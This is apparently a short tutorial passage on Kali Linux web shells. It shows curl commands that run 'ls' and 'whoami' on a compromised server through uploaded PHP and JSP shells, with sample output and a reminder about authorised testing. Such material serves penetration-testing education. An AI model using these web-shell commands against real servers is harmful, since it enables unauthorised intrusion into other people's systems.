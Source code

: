 ### Examples of Usage

1. **Uploading a Web Shell**:
   An attacker might upload a PHP web shell (e.g., `php-backdoor.php`) to a vulnerable web server. This shell can then be accessed via a web browser or a tool like `curl`.

   Example command to execute a command using the PHP web shell:
   ```bash
   curl "http://target.com/path/to/php-backdoor.php?cmd=ls"
   ```

   This command would execute the `ls` command on the server and return the output.

2. **Using a JSP Web Shell**:
   If a JSP web shell (e.g., `cmdjsp.jsp`) is uploaded, you can execute commands similarly:
   ```bash
   curl "http://target.com/path/to/cmdjsp.jsp?cmd=whoami"
   ```

   This would return the username of the web server process.

### Expected Output

When executing commands through a web shell, the output will typically be the result of the command executed on the server. For example, if you run the command to list files:
```bash
curl "http://target.com/path/to/php-backdoor.php?cmd=ls"
```
You might see output like:
```
file1.txt
file2.txt
uploads/
```

This output indicates the files and directories present in the current directory of the web server.

### Conclusion

Webshells in Kali Linux provide a powerful means for attackers to interact with compromised web servers. They can execute commands, upload files, and perform various actions depending on the capabilities of the specific web shell used. However, it's crucial to use these tools responsibly and ethically, ensuring you have permission to test any web application.

---
Learn more:
1. [webshells | Kali Linux Tools](https://www.kali.org/tools/webshells/)
2. [Web Shells: Understanding Attackers’ Tools and Techniques | F5 Labs](https://www.f5.com/labs/learning-center/web-shells-understanding-attackers-tools-and-techniques)
3. [Spinning Webs - Unveiling Arachne for Web Shell C2 | by Cody Thomas | Posts By SpecterOps Team Members](https://posts.specterops.io/spinning-webs-unveiling-arachne-for-web-shell-c2-26c40f570ea1)
